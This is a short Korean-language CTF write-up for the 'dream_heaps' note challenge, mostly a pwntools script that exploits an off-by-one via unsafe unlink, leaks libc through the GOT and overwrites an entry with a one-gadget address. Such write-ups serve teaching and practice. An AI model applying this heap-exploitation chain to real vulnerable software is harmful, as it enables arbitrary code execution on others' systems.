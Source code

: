 간단한 note 프로그램이다 

malloc size는 자유롭고 edit에서 의도적으로 off-by-one을 만들어 준다. 처음에 아무생각없이 double free했다가 바로 unlink로 바꿔서 풀었다. unlink -> leak -> puts_got (overwrite oneshot) 으로 금방 풀었다!

```python
from pwn import *

#t = process('./dream_heaps')#,env={'LD_PRELOAD':'libc-2.23.so.1'})
t = remote('chal1.swampctf.com',1070) 

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def add(size,content):
	r(">")
	s("1")
	r("How long is your dream?")
	s(str(size))
	r("What are the contents of this dream?")
	s(str(content))

def view(index):
	r(">")
	s("2")
	r("Which dream would you like to read?")
	s(str(index))

def edit(index,content):
	r(">")
	s("3")
	r("Which dream would you like to change?")
	s(str(index))
	pause(1)
	t.sendline(str(content))

def de(index):
	r(">")
	s("4")
	r("Which dream would you like to delete?")
	s(str(index))

target = 0x6020a0
free_got = 0x602018


add(0xf8,p64(0) + p64(0xf0) + p64(target-0x18) + p64(target-0x10) + "a"*(0xd0) + p64(0xf0)) 
add(0xf0,"b")

edit(0,"")

de(1)

edit(0,p64(0x1111111111111111)*3 + p64(free_got) + p64(0x602020)*6 + p64(0) + p64(0x1111) + p64(9)*2)

view(0)
t.recv(1)
libc = u64(t.recv(6).ljust(8,'\x00')) - 0x844f0
log.success("libc ==> " + hex(libc))
one = libc + 0x45216
tmp = one & 0xffffffff

edit(2,p64(one))

```